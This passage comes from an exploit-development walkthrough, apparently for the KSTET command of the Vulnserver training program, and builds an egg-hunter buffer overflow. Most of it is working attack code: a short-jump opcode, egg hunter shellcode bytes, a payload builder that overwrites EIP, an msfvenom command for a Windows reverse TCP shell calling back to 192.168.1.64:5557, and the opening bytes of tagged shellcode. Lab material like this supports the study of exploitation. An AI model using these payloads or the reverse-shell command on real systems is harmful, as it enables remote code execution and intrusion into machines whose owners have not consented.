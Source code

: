 At this point we need give ourselves more space. As a minimum we need 32 bytes for the egg hunter to run. To do this we are going to jump backwards using a jump short which we covered in the GMON post.  In this case I'm jumping back 72 bytes

```python
short_jmp = b'\xeb\xb8'
```

The next step is to generate the egg hunter code! 

We can do this in immunity by running:

```python
mona egg -t CFOX
```

where "t" is the tag the egg hunter will search for.

This should generate output similar to this:

```python
egg =  b""
egg += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egg += b"\xef\xb8\x43\x46\x4f\x58\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
```

Now that we have both the space & the egghunter shellcode, we need to neaten up the payload.

```python
def make_payload():
    prepend = b"KSTET /.:/"
    pattern = b"A"*2
    egg =  b""
    egg += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
    egg += b"\xef\xb8\x43\x46\x4f\x58\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
    pad = b'B'*(62-len(egg)+2)
	eip = b"\xdf\x11\x50\x62"
    short_jmp = b'\xeb\xb8'
    buffer_space = 900
    payload_struct = pattern + egg + pad + eip + short_jmp + b'C'*buffer_space
    final_payload = prepend + payload_struct
    return final_payload
```

What I have done here is adjust the character padding in the payload so execution falls neatly to our shellcode. 

Generate the reverse shell payload like normal:

```bash
 sudo msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.64 LPORT=5557 -b '\x00' -f c
```

In order to find our shellcode in memory we need to prefix it with the tag we specified in our mona command like so:

```python
def store(cmd):
	prepend = cmd +b" CFOXCFOX"
    buf = b''
    buf += b"\xda\xd0\xbf\xb8\x33\xa8\xe9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
    buf += b"\x56\x83\xc2\x04\x31\x7a\x14\x03\x7a\xac\xd1\x5d\x15\x24\x97"
    [---SNIP---]
```
